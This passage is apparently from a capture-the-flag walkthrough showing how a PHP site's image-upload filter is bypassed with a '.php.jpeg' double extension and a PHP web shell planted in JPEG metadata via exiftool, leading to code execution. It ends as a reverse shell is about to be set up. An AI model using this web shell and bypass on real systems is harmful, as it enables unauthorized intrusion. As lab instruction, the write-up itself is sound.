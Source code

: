 Even if I could upload PHP code, it’s not much use if I can’t call it. So let’s upload a JEPG image and see if we can call it through the web server.

![Image for post](https://miro.medium.com/max/439/1*fQkl3nMEdYZFtGldZuq1yA.png)

We get a file has been uploaded message. Visiting the root directory, we see that our image is included in the slide show.

![Image for post](https://miro.medium.com/max/1188/1*YowvW6AK8RunmXo6Hdmu2A.png)

Viewing the page source gives us the path to the image.

![Image for post](https://miro.medium.com/max/577/1*Qiokb885rKy-YnTEUjLsFw.png)

Good. So we do have a way to call the image. Now all we need to do is figure out a way to bypass file upload restrictions to upload PHP code.

### Initial Foothold <a id="1894"></a>

Try and upload a file with a “_.php_” extension.

![Image for post](https://miro.medium.com/max/383/1*mLTSoAhoR7wKrQcilk7iEw.png)

We get the above message indicating that there are backend restrictions on the file extension. Next, try and upload a file with the extension “_.php.jpeg_”.

![Image for post](https://miro.medium.com/max/292/1*fpjf6ryaqMXRnPd4vKdUvQ.png)

We get a different error message. So we bypassed the extension restriction, but we’re now faced with another restriction. My guess is it is checking the mime type of the file. To bypass that, we’ll use exiftool to add PHP code to our cat image.

```text
exiftool -Comment='<?php system($_GET['cmd']); ?>' cat.jpeg
```

This adds a parameter to the GET request called _cmd_ that we’ll use to get code execution. View the type of the file.

```text
root@kali:~# file cat.php.jpeg 
cat.php.jpeg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, comment: "<?php system(['cmd']); ?>", baseline, precision 8, 121x133, components 3
```

The file is still a JPEG image, so it should bypass MIME type restrictions. Upload the file.

![Image for post](https://miro.medium.com/max/458/1*6opCjWPpvwzECZlO_jtevA.png)

Perfect! Now call the file with the cmd parameter to confirm that we have code execution.

![Image for post](https://miro.medium.com/max/716/1*RwSnu0EU86R0a3ZbEvt-Xw.png)

We have code execution! Now, let’s get a reverse shell. First, set up a listener on the attack machine.
